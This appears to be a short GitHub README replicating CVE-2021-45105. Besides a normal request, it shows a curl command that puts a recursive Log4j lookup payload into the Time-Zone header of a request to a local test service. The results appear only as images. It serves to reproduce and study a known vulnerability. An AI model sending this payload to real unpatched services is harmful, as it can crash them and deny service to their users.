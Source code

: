# tejas-nagchandi/CVE-2021-45105
Replicating CVE-2021-45105

## API
```
curl -I localhost:8080/currentDateTime -H 'Time-Zone: GMT'
```
Output:

![image](https://user-images.githubusercontent.com/76960497/146695238-6723adf4-a46e-492e-af7e-1e56c76c3882.png)

## Attack
```
 curl -I localhost:8080/currentDateTime -H 'Time-Zone: ${${::-${::-$${::-$}}}}'
```
Output:

![image](https://user-images.githubusercontent.com/76960497/146695252-05a3b4aa-71f9-48f9-a8d0-757dc2e65bd0.png)

Logs:

![image](https://user-images.githubusercontent.com/76960497/146694904-173ade2d-3036-45ce-88fd-22d815de93c8.png)

## Reference:
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105
